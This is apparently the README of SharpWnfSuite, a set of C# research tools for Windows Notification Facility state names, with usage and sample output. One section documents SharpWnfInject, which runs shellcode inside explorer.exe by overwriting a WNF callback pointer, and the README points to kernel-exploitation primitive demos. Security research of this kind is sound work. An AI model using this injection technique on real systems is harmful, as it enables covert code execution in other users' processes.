


# SharpWnfSuite

This is the repository for Windows Notification Facility (WNF) tools.
Currently, a C# port of the tools in [wnfun](https://github.com/ionescu007/wnfun) developed by Alex Ionescu ([@aionescu](https://twitter.com/aionescu)) and Gabrielle Viala ([@pwissenlit](https://twitter.com/pwissenlit)) has been uploaded.
When I develop additional tools for Windows Notification Facility, they will be uploaded here.

## Table Of Contents
+ [SharpWnfSuite](#sharpwnfsuite)
    + [Usage](#usage)
        + [SharpWnfDump](#sharpwnfdump)
        + [SharpWnfNameDumper](#sharpwnfnamedumper)
        + [SharpWnfClient](#sharpwnfclient)
        + [SharpWnfServer](#sharpwnfserver)
        + [SharpWnfScan](#sharpwnfscan)
        + [SharpWnfInject](#sharpwnfinject)
    + [KernelPrimitive](#kernelprimitive)
    + [WnfCallbackPayload](#wnfcallbackpayload)
    + [Reference](#reference)
    + [Acknowledgments](#acknowledgments)

## Usage
### SharpWnfDump

[Back to Top](#sharpwnfsuite)

[Project](./SharpWnfSuite/SharpWnfDump)

This tool dumps or manipulate information about WNF State Names.
Equivalent to [wnfdump.exe](https://github.com/ionescu007/wnfun/blob/master/wnftools_x64/wnfdump.exe) and [WnfDump.py](https://github.com/ionescu007/wnfun/blob/master/script_python/WnfDump.py).
I made some updates from the original tool (Exception Handling, Well-Known State Name and new WNF_DATA_SCOPE member).

To retrieve information of all Well-Known, Permanent and Persistent WNF State Names on your host, execute with `-d` (`--dump`) flag:

```
PS C:\Dev> .\SharpWnfDump.exe -d

| WNF State Name [WellKnown Lifetime]                             | S | L | P | AC | N | CurSize | MaxSize | Changes |
----------------------------------------------------------------------------------------------------------------------
| WNF_WEBA_CTAP_DEVICE_STATE                                      | S | W | N | RW | I |       0 |      12 |       0 |
| WNF_WEBA_CTAP_DEVICE_CHANGE_NOTIFY                              | S | W | N | RW | I |       0 |       4 |       0 |
| WNF_PNPA_DEVNODES_CHANGED                                       | S | W | N | RO | U |       0 |       0 |      11 |

--snip--
```

If you want to retrieve Security Descripter information, set `-s` (`--sid`) flag:

```
PS C:\Dev> .\SharpWnfDump.exe -d -s

| WNF State Name [WellKnown Lifetime]                             | S | L | P | AC | N | CurSize | MaxSize | Changes |
----------------------------------------------------------------------------------------------------------------------
| WNF_WEBA_CTAP_DEVICE_STATE                                      | S | W | N | RW | I |       0 |      12 |       0 |

        D:(A;;CCDC;;;SY)(A;;CCDC;;;BA)(A;;CCDC;;;S-1-5-80-242729624-280608522-2219052887-3187409060-2225943459)(A;;CC;;;AU)(A;;CC;;;AC)

| WNF_WEBA_CTAP_DEVICE_CHANGE_NOTIFY                              | S | W | N | RW | I |       0 |       4 |       0 |

        D:(A;;CCDC;;;SY)(A;;CCDC;;;BA)(A;;CCDC;;;S-1-5-80-242729624-280608522-2219052887-3187409060-2225943459)(A;;CC;;;AU)(A;;CC;;;AC)

| WNF_PNPA_DEVNODES_CHANGED                                       | S | W | N | RO | U |       0 |       0 |      11 |

        D:(A;;CC;;;BU)(A;;CCDC;;;SY)

--snip--
```

If you want to retrieve buffer data, set `-v` (`--value`) or `-r` (`--read`) flag.
These flags can be used with `-s` flag:

```
PS C:\Dev> .\SharpWnfDump.exe -d -v

| WNF State Name [WellKnown Lifetime]                             | S | L | P | AC | N | CurSize | MaxSize | Changes |
----------------------------------------------------------------------------------------------------------------------
| WNF_WEBA_CTAP_DEVICE_STATE                                      | S | W | N | RW | I |       0 |      12 |       0 |
| WNF_WEBA_CTAP_DEVICE_CHANGE_NOTIFY                              | S | W | N | RW | I |       0 |       4 |       0 |

--snip--

| WNF_AUDC_RENDER                                                 | S | W | N | RO | U |    4096 |    4096 |       1 |

                   00 01 02 03 04 05 06 07 08 09 0A 0B 0C 0D 0E 0F

        00000000 | 01 00 00 00 00 00 00 00-00 00 00 00 00 00 00 00 | ........ ........
        00000010 | 00 00 00 00 00 00 00 00-00 00 00 00 00 00 00 00 | ........ ........
        00000020 | 00 00 00 00 00 00 00 00-00 00 00 00 00 00 00 00 | ........ ........

--snip--
```

To retrieve information of all Temporary WNF State Names on your host, execute with `-b` (`--brut`) flag:

```
PS C:\Dev> .\SharpWnfDump.exe -b

| WNF State Name [System Scope]                                   | S | L | P | AC | N | CurSize | MaxSize | Changes |
----------------------------------------------------------------------------------------------------------------------
| 0x41C64E6DA3AC3845                                              | S | T | N | RW | A |       8 |       ? |       1 |
| 0x41C64E6DA3AC4845                                              | S | T | N | RW | A |       8 |       ? |       1 |
| 0x41C64E6DA3AC6845                                              | S | T | N | RW | A |       8 |       ? |       1 |

--snip--
```

The `-b` (`--brut`) flag can be used with `-v` (`--value`) or `-r` (`--read`) flag, but cannot be used with `-s` (`--sid`) flag.

The meaning of each column in the table obtained from the results of `--dump` or `--brut` option is as follows:

| Column Name | Description |
| :--- | :--- |
| `WNF State Name` | WNF State Names are outputted here |
| `S` | Data scope for WNF State Name. The meanings of the alphabets displayed are as follows:<br><br>+ `S` : System Scope<br>+ `s` : Session Scope<br>+ `U` : User Scope<br>+ `P` : Process Scope<br>+ `M` : Machine Scope<br>+ `p` : Physical Machine Scope |
| `L` | Lifetime for WNF State Name. The meanings of the alphabets displayed are as follows:<br><br>+ `W` : Well-Known<br>+ `P` : Permanent<br>+ `V` : Persistent (Volatile)<br>+ `T` : Temporary |
| `P` | Displays if the WNF State Name is permanent:<br><br>+ `Y` : Yes<br>+ `N` : No |
| `AC` | Access control for the WNF State Name:<br><br>+ `RW` : Readable and Writable<br>+ `RO` : Read-Only<br>+ `WO` : Write-Only<br>+ `NA` : Not Readable and Writable |
| `N` | Displays subscriber existence:<br><br>+ `A` : Subscriber exists<br>+ `I` : No subscriber exists<br>+ `U` : Unknown |
| `CurSize` | The number means current buffer size used for the WNF State Name. |
| `MaxSize` | The number means maximum buffer size can be used for the WNF State Name. |
| `Changes` | The number means how many times updated. |

If you want to retrieve information about a specific WNF State Name, execute `SharpWnfDump.exe` with `-i` (`--info`) option as follows:

```
PS C:\Dev> .\SharpWnfDump.exe -i WNF_SHEL_APPRESOLVER_SCAN

| WNF State Name                                                  | S | L | P | AC | N | CurSize | MaxSize | Changes |
----------------------------------------------------------------------------------------------------------------------
| WNF_SHEL_APPRESOLVER_SCAN                                       | S | W | N | RW | A |       4 |       4 |       1 |
```

The `-i` (`--info`) option can be used with `-v` (`--value`), `-r` (`--read`), and `-s` (`--sid`) flag:

```
PS C:\Dev> .\SharpWnfDump.exe -i WNF_SHEL_APPRESOLVER_SCAN -s -v

| WNF State Name                                                  | S | L | P | AC | N | CurSize | MaxSize | Changes |
----------------------------------------------------------------------------------------------------------------------
| WNF_SHEL_APPRESOLVER_SCAN                                       | S | W | N | RW | A |       4 |       4 |       1 |

        D:(A;;CC;;;WD)(A;;CCDC;;;AU)(A;;CCDC;;;AC)

                   00 01 02 03 04 05 06 07 08 09 0A 0B 0C 0D 0E 0F

        00000000 | 01 00 00 00                                     | ....
```

To read data from a specific WNF State Name, use `-r` (`--read`) flag as follows:

```
PS C:\Dev> .\SharpWnfDump.exe -r WNF_SHEL_APPRESOLVER_SCAN

WNF_SHEL_APPRESOLVER_SCAN:

        00000000 | 11 00 00 00                                     | ....

```

To write data to a specific WNF State Name, use `-w` (`--write`) flag as follows (data for write should be provided with a file):

```
PS C:\Dev> "hi" | Out-File -Encoding ascii -FilePath C:\Dev\test.txt
PS C:\Dev> Get-Content -Path C:\Dev\test.txt
hi
PS C:\Dev> .\SharpWnfDump.exe -w WNF_SHEL_APPRESOLVER_SCAN C:\Dev\test.txt

[>] Trying to write data.
    [*] Target WNF Name : WNF_SHEL_APPRESOLVER_SCAN
    [*] Data Source     : C:\Dev\test.txt
[+] Data is written successfully.

PS C:\Dev> .\SharpWnfDump.exe -i WNF_SHEL_APPRESOLVER_SCAN -r

| WNF State Name                                                  | S | L | P | AC | N | CurSize | MaxSize | Changes |
----------------------------------------------------------------------------------------------------------------------
| WNF_SHEL_APPRESOLVER_SCAN                                       | S | W | N | RW | A |       4 |       4 |       2 |

                   00 01 02 03 04 05 06 07 08 09 0A 0B 0C 0D 0E 0F

        00000000 | 68 69 0D 0A                                     | hi..
```


### SharpWnfNameDumper

[Back to Top](#sharpwnfsuite)

[Project](./SharpWnfSuite/SharpWnfNameDumper)

This tool dumps Well-Known State Name from DLL (typically perf_nt_c.dll).
Equivalent to [WnfNameDumper.py](https://github.com/ionescu007/wnfun/blob/master/script_python/WnfNameDumper.py).

Typically, Well-Know State Names is contained in perf_nt_c.dll (it is in the Windows Performance Analyzer).
To dump Well-Know State Names from DLL, execute `SharpWnfNameDumper.exe` with `-d` (`--dump`) option as follows:

```
PS C:\Dev> .\SharpWnfNameDumper.exe -d perf_nt_c.dll

[>] Output results in C# style.

public enum WELL_KNOWN_WNF_NAME : ulong
{
    WNF_9P_REDIRECTOR_STARTED = 0x41C61E54A3BC1075UL,
    WNF_9P_UNKNOWN_DISTRO_NAME = 0x41C61E54A3BC0875UL,

--snip--
```

If you want to dump description for Well-Known State Names, set `-v` flag:

```
PS C:\Dev> .\SharpWnfNameDumper.exe -d perf_nt_c.dll -v

[>] Output results in C# style.

public enum WELL_KNOWN_WNF_NAME : ulong
{
    // The Plan 9 Redirector was started and is ready to accept requests.
    WNF_9P_REDIRECTOR_STARTED = 0x41C61E54A3BC1075UL,
    // The Plan 9 Redirector got a request for an unknown WSL distribution and there is no user callback registered to query it.
    WNF_9P_UNKNOWN_DISTRO_NAME = 0x41C61E54A3BC0875UL,

--snip--
```

To specify the output format, use `-f` (`--format`) option. `SharpWnfNameDumper.exe` supports C#, C (`-f c`) and Python (`-f py`) format (default format is C#):

```
PS C:\Dev> .\SharpWnfNameDumper.exe -d perf_nt_c.dll -f py

[>] Output results in Python style.

g_WellKnownWnfNames = {
    "WNF_9P_REDIRECTOR_STARTED": 0x41C61E54A3BC1075,
    "WNF_9P_UNKNOWN_DISTRO_NAME": 0x41C61E54A3BC0875,

--snip--
```

To output the result to a file, use `-o` (`--output`) option to specify output file path:

```
PS C:\Dev> .\SharpWnfNameDumper.exe -d perf_nt_c.dll -o result.txt

[>] Output results in C# style.


C:\dev>type result.txt
public enum WELL_KNOWN_WNF_NAME : ulong
{
    WNF_9P_REDIRECTOR_STARTED = 0x41C61E54A3BC1075UL,
    WNF_9P_UNKNOWN_DISTRO_NAME = 0x41C61E54A3BC0875UL,

--snip--
```

To take diff from 2 DLLs, use `-D` (`--diff`) option:

```
PS C:\Dev> .\SharpWnfNameDumper.exe -D perf_nt_c_old.dll perf_nt_c_new.dll

[>] Output results in C# style.

################################################
#                   NEW KEYS                   #
################################################


public enum WELL_KNOWN_WNF_NAME : ulong
{
    WNF_SHEL_CHAT_ICON_BADGE = 0x0D83063EA3B8A035UL,
    WNF_SHEL_ENTERPRISE_START_PINS_POLICY_VALUE_CHANGED = 0x0D83063EA3B89475UL,
    WNF_SHEL_FILE_EXPLORER_PINNED_FOLDERS = 0x0D83063EA3B8ACF5UL,
    WNF_SHEL_MAC_AUTO_UPDATE_SUCCEEDED = 0x0D83063EA3B89875UL
}
```


### SharpWnfClient

[Back to Top](#sharpwnfsuite)

[Project](./SharpWnfSuite/SharpWnfClient)

This is a tool for a subscribe WNF State Name.
Equivalent to [wnfclient-rtl.exe](https://github.com/ionescu007/wnfun/blob/master/wnftools_x64/wnfclient-rtl.exe) and [WnfClientServer.py](https://github.com/ionescu007/wnfun/blob/master/script_python/WnfClientServer.py).

For example, if you want to monitor the state of `WNF_SHEL_APPLICATION_STARTED`, execute `SharpWnfClient.exe` as follows:

```
PS C:\Dev> .\SharpWnfClient.exe WNF_SHEL_APPLICATION_STARTED

[>] Received data from server.
    [*] Timestamp : 4
    [*] Buffer Size : 92 byte(s)
    [*] Data :

                   00 01 02 03 04 05 06 07 08 09 0A 0B 0C 0D 0E 0F

        00000000 | 61 00 3A 00 6D 00 69 00-63 00 72 00 6F 00 73 00 | a.:.m.i. c.r.o.s.
        00000010 | 6F 00 66 00 74 00 2E 00-77 00 69 00 6E 00 64 00 | o.f.t... w.i.n.d.
        00000020 | 6F 00 77 00 73 00 74 00-65 00 72 00 6D 00 69 00 | o.w.s.t. e.r.m.i.
        00000030 | 6E 00 61 00 6C 00 5F 00-38 00 77 00 65 00 6B 00 | n.a.l._. 8.w.e.k.
        00000040 | 79 00 62 00 33 00 64 00-38 00 62 00 62 00 77 00 | y.b.3.d. 8.b.b.w.
        00000050 | 65 00 21 00 61 00 70 00-70 00 00 00             | e.!.a.p. p...
```

Then, if you start notepad application, should see following result:

```
[>] Received data from server.
    [*] Timestamp : 5
    [*] Buffer Size : 90 byte(s)
    [*] Data :

                   00 01 02 03 04 05 06 07 08 09 0A 0B 0C 0D 0E 0F

        00000000 | 61 00 3A 00 6D 00 69 00-63 00 72 00 6F 00 73 00 | a.:.m.i. c.r.o.s.
        00000010 | 6F 00 66 00 74 00 2E 00-77 00 69 00 6E 00 64 00 | o.f.t... w.i.n.d.
        00000020 | 6F 00 77 00 73 00 6E 00-6F 00 74 00 65 00 70 00 | o.w.s.n. o.t.e.p.
        00000030 | 61 00 64 00 5F 00 38 00-77 00 65 00 6B 00 79 00 | a.d._.8. w.e.k.y.
        00000040 | 62 00 33 00 64 00 38 00-62 00 62 00 77 00 65 00 | b.3.d.8. b.b.w.e.
        00000050 | 21 00 61 00 70 00 70 00-00 00                   | !.a.p.p. ..
```


### SharpWnfServer

[Back to Top](#sharpwnfsuite)

[Project](./SharpWnfSuite/SharpWnfServer)

This tool creates a temporary lifetime WNF State Name and sends some message to the subscriber.
Equivalent to [wnfserver.exe](https://github.com/ionescu007/wnfun/blob/master/wnftools_x64/wnfserver.exe) and [WnfClientServer.py](https://github.com/ionescu007/wnfun/blob/master/script_python/WnfClientServer.py).

To start new WNF State Name server, simply execute `SharpWnfServer.exe`. We should enter an interactive shell as follows:

```
PS C:\Dev> .\SharpWnfServer.exe

[+] New WNF State Name is created successfully : 0x41C64E6DA3834945

Encoded State Name: 0x41C64E6DA3834945, Decoded State Name: 0x3F4931
    Version: 1, Lifetime: Temporary, Scope: Machine, Permanent: NO, Sequence Number: 0x7E9, Owner Tag: 0x0

Sending input data to WNF subscriber...

[INPUT]>
```

After executing `SharpWnfServer.exe`, execute `SharpWnfClient.exe` with WNF State Name provided with `SharpWnfServer.exe` from another terminal. You should receive "Hello, world!" as a message from `SharpWnfServer.exe`:

```
PS C:\Dev> .\SharpWnfClient.exe 0x41C64E6DA3834945

[>] Received data from server.
    [*] Timestamp : 1
    [*] Buffer Size : 13 byte(s)
    [*] Data :

                   00 01 02 03 04 05 06 07 08 09 0A 0B 0C 0D 0E 0F

        00000000 | 48 65 6C 6C 6F 2C 20 77-6F 72 6C 64 21          | Hello,.w orld!
```

To publish additional message to `SharpWnfClient.exe`, enter your message to the interactive shell of `SharpWnfServer.exe`:

```
[INPUT]> This is WNF test
Sending input data to WNF subscriber...

[INPUT]>
```

Then, you should see the message in the terminal for `SharpWnfClient.exe` as follows:

```
[>] Received data from server.
    [*] Timestamp : 2
    [*] Buffer Size : 16 byte(s)
    [*] Data :

                   00 01 02 03 04 05 06 07 08 09 0A 0B 0C 0D 0E 0F

        00000000 | 54 68 69 73 20 69 73 20-57 4E 46 20 74 65 73 74 | This.is. WNF.test
```


### SharpWnfScan

[Back to Top](#sharpwnfsuite)

[Project](./SharpWnfSuite/SharpWnfScan)

This tool is based on [modexp](https://twitter.com/modexpblog)'s [wnfscan](https://github.com/odzhan/injection/blob/master/wnf/wnfscan.c), and dumps WNF subscription information from process.

```
PS C:\Dev> .\SharpWnfScan.exe -h

SharpWnfScan - Tool for dumping WNF information from process.

Usage: SharpWnfScan.exe [Options]

        -h, --help        : Displays this help message.
        -p, --pid         : Specifies the target PID.
        -P, --processname : Specifies the target process name.
        -n, --name        : Specifies a wnf state name for filtering.
        -a, --all         : Flag to dump information from all process.
        -l, --list        : Flag to list WNF State Name on this system.
        -d, --debug       : Flag to enable SeDebugPrivilege. Administrative privilege is required.
        -v, --verbose     : Flag to get verbose information.
```

To dump a specific process, set `-p` option as follows:

```
PS C:\Dev> .\SharpWnfScan.exe -p 5800

Process ID      : 5800
Image File Name : C:\Windows\explorer.exe
Architecture    : ARM64

WNF_SUBSCRIPTION_TABLE @ 0x0000000001206660

    WNF_NAME_SUBSCRIPTION @ 0x0000000001206B00
    StateName : 0x0280032EA3BC0875 (WNF_CMFC_FEATURE_CONFIGURATION_CHANGED)

    WNF_NAME_SUBSCRIPTION @ 0x000000000120AD10
    StateName : 0x418B1929A3BC3835 (WNF_DWM_DUMP_REQUEST)

    WNF_NAME_SUBSCRIPTION @ 0x0000000005099950
    StateName : 0x41960A2EA3BC1835 (WNF_CDP_CDPUSERSVC_READY)

--snip--
```

If you want to get WNF_USER_SUBSCRIPTION information, set `-v` flag as follows:

```
PS C:\Dev> .\SharpWnfScan.exe -p 5800 -v

Process ID      : 5800
Image File Name : C:\Windows\explorer.exe
Architecture    : ARM64

WNF_SUBSCRIPTION_TABLE @ 0x0000000001206660

    WNF_NAME_SUBSCRIPTION @ 0x0000000001206B00
    StateName : 0x0280032EA3BC0875 (WNF_CMFC_FEATURE_CONFIGURATION_CHANGED)

        WNF_USER_SUBSCRIPTION @ 0x0000000001206A40
        Callback @ 0x00007FFE88478470 (ntdll!RtlNotifyFeatureUsage+0x1C0)
        Context  @ 0x00007FFE886F0B20 (ntdll!NlsAnsiCodePage+0x2390)

    WNF_NAME_SUBSCRIPTION @ 0x000000000120AD10
    StateName : 0x418B1929A3BC3835 (WNF_DWM_DUMP_REQUEST)

        WNF_USER_SUBSCRIPTION @ 0x0000000001207FD0
        Callback @ 0x00007FF7073027C0 (explorer)
        Context  @ 0x0000000001208CC0 (N/A)

--snip--
```

You can specifies target processes by name with `-P` option:

```
PS C:\Dev> .\SharpWnfScan.exe -P notepad

Process ID      : 8720
Image File Name : C:\Program Files\WindowsApps\Microsoft.WindowsNotepad_11.2401.26.0_arm64__8wekyb3d8bbwe\Notepad\Notepad.exe
Architecture    : ARM64

WNF_SUBSCRIPTION_TABLE @ 0x000001DE2B007560

    WNF_NAME_SUBSCRIPTION @ 0x000001DE2B02D640
    StateName : 0x41C61629A3BC2835 (WNF_DX_MONITOR_CHANGE_NOTIFICATION)

    WNF_NAME_SUBSCRIPTION @ 0x000001DE2B03E040
    StateName : 0x41950223A3BC1035 (WNF_NLS_USER_UILANG_CHANGED)

--snip--
```

To filter with state name, set hex or well know wnf name string to `-n` option as follows:

```
PS C:\Dev> .\SharpWnfScan.exe -P notepad -n WNF_RPCF_FWMAN_RUNNING

Process ID      : 8720
Image File Name : C:\Program Files\WindowsApps\Microsoft.WindowsNotepad_11.2401.26.0_arm64__8wekyb3d8bbwe\Notepad\Notepad.exe
Architecture    : ARM64

WNF_SUBSCRIPTION_TABLE @ 0x000001DE2B007560

    WNF_NAME_SUBSCRIPTION @ 0x000001DE2B075040
    StateName : 0x07851E3FA3BC0875 (WNF_RPCF_FWMAN_RUNNING)


PS C:\Dev> .\SharpWnfScan.exe -P notepad -n 0x07851E3FA3BC0875

Process ID      : 8720
Image File Name : C:\Program Files\WindowsApps\Microsoft.WindowsNotepad_11.2401.26.0_arm64__8wekyb3d8bbwe\Notepad\Notepad.exe
Architecture    : ARM64

WNF_SUBSCRIPTION_TABLE @ 0x000001DE2B007560

    WNF_NAME_SUBSCRIPTION @ 0x000001DE2B075040
    StateName : 0x07851E3FA3BC0875 (WNF_RPCF_FWMAN_RUNNING)
```

To dump all processes at a time, use `-a` option:

```
PS C:\Dev> .\SharpWnfScan.exe -a

Process ID      : 1180
Image File Name : C:\Windows\System32\svchost.exe
Architecture    : ARM64

WNF_SUBSCRIPTION_TABLE @ 0x000002101A806560

    WNF_NAME_SUBSCRIPTION @ 0x000002101A830120
    StateName : 0x07851E3FA3BC0875 (WNF_RPCF_FWMAN_RUNNING)

    WNF_NAME_SUBSCRIPTION @ 0x000002101A86C1C0
    StateName : 0x41C64E6DA3B0E045 (N/A)

    WNF_NAME_SUBSCRIPTION @ 0x000002101A833C50
    StateName : 0x41C64E6DA3BC6145 (N/A)

    WNF_NAME_SUBSCRIPTION @ 0x000002101A846A50
    StateName : 0x41C64E6DA3BD0945 (N/A)

    WNF_NAME_SUBSCRIPTION @ 0x000002101A86CA00
    StateName : 0x41C64E6DA3BB8045 (N/A)

    WNF_NAME_SUBSCRIPTION @ 0x000002101A806A00
    StateName : 0x0280032EA3BC0875 (WNF_CMFC_FEATURE_CONFIGURATION_CHANGED)

    WNF_NAME_SUBSCRIPTION @ 0x000002101A86C4C0
    StateName : 0x41C64E6DA3B1E045 (N/A)

    WNF_NAME_SUBSCRIPTION @ 0x000002101A86C700
    StateName : 0x41C64E6DA3A0F945 (N/A)

    WNF_NAME_SUBSCRIPTION @ 0x000002101A830EE0
    StateName : 0x4195003AA3BC0875 (WNF_WNS_CONNECTIVITY_STATUS)

    WNF_NAME_SUBSCRIPTION @ 0x000002101A86C880
    StateName : 0x41C6072FA3BC3875 (WNF_BI_APPLICATION_SERVICING_START_CHANNEL)

    WNF_NAME_SUBSCRIPTION @ 0x000002101A86CC40
    StateName : 0x41C6072FA3BC1875 (WNF_BI_USER_LOGOFF_CHANNEL)

    WNF_NAME_SUBSCRIPTION @ 0x000002101A835E90
    StateName : 0x41C6072FA3BC1075 (WNF_BI_USER_LOGON_CHANNEL)

    WNF_NAME_SUBSCRIPTION @ 0x000002101A86CD00
    StateName : 0x41C6072FA3BC2875 (WNF_BI_SESSION_DISCONNECT_CHANNEL)

    WNF_NAME_SUBSCRIPTION @ 0x000002101A86CAC0
    StateName : 0x41C6072FA3BC2075 (WNF_BI_SESSION_CONNECT_CHANNEL)

    WNF_NAME_SUBSCRIPTION @ 0x000002101A86C940
    StateName : 0x41840B3EA3BC2075 (WNF_SEB_NETWORK_STATE_CHANGES)

    WNF_NAME_SUBSCRIPTION @ 0x000002101A853920
    StateName : 0x41C6072FA3BC3075 (WNF_BI_APPLICATION_UNINSTALL_CHANNEL)

    WNF_NAME_SUBSCRIPTION @ 0x000002101A836040
    StateName : 0x41C6072FA3BC4875 (WNF_BI_LOCK_SCREEN_UPDATE_CHANNEL)

    WNF_NAME_SUBSCRIPTION @ 0x000002101A86C580
    StateName : 0x41C6072FA3BC4075 (WNF_BI_APPLICATION_SERVICING_STOP_CHANNEL)

    WNF_NAME_SUBSCRIPTION @ 0x000002101A833B80
    StateName : 0x41C6072FA3BC6075 (WNF_BI_QUIET_MODE_UPDATE_CHANNEL)

    WNF_NAME_SUBSCRIPTION @ 0x000002101A86C400
    StateName : 0x41C6072FA3BC5075 (WNF_BI_EVENT_DELETION)

Process ID      : 2952
Image File Name : C:\Windows\System32\svchost.exe
Architecture    : ARM64

WNF_SUBSCRIPTION_TABLE @ 0x0000023DD3A065C0

    WNF_NAME_SUBSCRIPTION @ 0x0000023DD3AF8B80
    StateName : 0x41C64E6DA3B1E045 (N/A)

    WNF_NAME_SUBSCRIPTION @ 0x0000023DD3AF8C40
    StateName : 0x41C64E6DA3BC6145 (N/A)

--snip--
```

To enable `SeDebugPrivilege`, set `-d` flag as follows.
This option requires administrative privilege:

```
PS C:\Dev> .\SharpWnfScan.exe -d -P winlogon

[+] SeDebugPrivilege is enabled successfully.

Process ID      : 680
Image File Name : C:\Windows\System32\winlogon.exe
Architecture    : ARM64

WNF_SUBSCRIPTION_TABLE @ 0x00000265F4E05F80

    WNF_NAME_SUBSCRIPTION @ 0x00000265F4E48AE0
    StateName : 0x41C64E6DA3BC6145 (N/A)

    WNF_NAME_SUBSCRIPTION @ 0x00000265F4E27AD0
    StateName : 0x41C61629A3BC1035 (WNF_DX_MODE_CHANGE_NOTIFICATION)

--snip--
```

To list WNF State Names used in the target system, set `-l` flag as follows:

```
PS C:\Dev> .\SharpWnfScan.exe -l

[>] Trying to list WNF State Names used in this system. Wait a moment.

[1304 WNF State Names]

[*] 0x07851E3FA3BC0875 (WNF_RPCF_FWMAN_RUNNING)
[*] 0x41C64E6DA3B0E045 (N/A)
[*] 0x41C64E6DA3BC6145 (N/A)
[*] 0x41C64E6DA3BD0945 (N/A)
[*] 0x41C64E6DA3BB8045 (N/A)
[*] 0x0280032EA3BC0875 (WNF_CMFC_FEATURE_CONFIGURATION_CHANGED)
[*] 0x41C64E6DA3B1E045 (N/A)

--snip--

[16 Access Denied Processes]

[*] svchost (PID : 2352)
[*] svchost (PID : 4952)
[*] MsMpEng (PID : 3132)
    
--snip--

[*] Done.
```


### SharpWnfInject

[Back to Top](#sharpwnfsuite)

[Project](./SharpWnfSuite/SharpWnfInject)

This tool is to investigate how attackers can abuse WNF for code injection technique:

```
PS C:\Dev> .\SharpWnfInject.exe -h

SharpWnfInject - Tool to investigate WNF code injection technique.

Usage: SharpWnfInject.exe [Options]

        -h, --help  : Displays this help message.
        -n, --name  : Specifies WNF State Name to inject. Hex format or Well-known name format is accepted.
        -p, --pid   : Specifies PID to inject.
        -i, --input : Specifies the file path to shellcode.
        -d, --debug : Flag to enable SeDebugPrivilege. Requires administrative privilege.

[!] -n option is required.
```

This tool overwrite callback function pointer in `WNF_USER_SUBSCRIPTION` for a specific WNF State Name.
The code injection technique does not work for all WNF State Name.
For example, this technique is known to be available for `WNF_SHEL_WINDOWSTIP_CONTENT_PUBLISHED` used by `explorer.exe` in Windows 11 23H2.
To test this technique, execute this tool as follows:

```
PS C:\Dev> .\SharpWnfInject.exe -p 5800 -n WNF_SHEL_WINDOWSTIP_CONTENT_PUBLISHED -i .\notepad_arm64.bin

[*] Target WNF State Name is 0x0D83063EA3BE10F5 (WNF_SHEL_WINDOWSTIP_CONTENT_PUBLISHED).
[+] Got a handle from the target Process
    [*] Process Name    : explorer.exe
    [*] Process ID      : 5800
    [*] Image File Name : C:\Windows\explorer.exe
    [*] Architecture    : ARM64
[+] Pointer for WNF_SUBSCRIPTION_TABLE is at 0x00007FFE886F4E20.
[+] WNF_SUBSCRIPTION_TABLE is at 0x0000000001206660.
[*] WNF_NAME_SUBSCRIPTION is at 0x0000000001273540.
[+] Got 1 WNF_USER_SUBSCRIPTION.
[*] Target callback pointer is at 0x00000000051C2250.
[*] Callback function is at 0x00007FFE54FD4D20 (twinui!DllGetClassObject+0x11AFF0).
[+] Shellcode buffer is at 0x0000000003270000.
[+] 344 bytes shellcode is written successfully.
[+] Callback pointer is overwritten successfully.
[>] Triggering shellcode.
[+] WNF State Data is updated successfully. Shellcode might be executed.
[+] Callback pointer is reverted successfully.
[*] Done.
```



If you want to enable `SeDebugPrivilege`, set `-d` flag and execute with administrative privilege.
Sample shellcodes to execute notepad are located at [Shellcode directory](./SharpWnfSuite/Shellcode).


## KernelPrimitive

[Back to Top](#sharpwnfsuite)

Projects in this directory are to demonstrate WNF primitive for kernel exploitation.
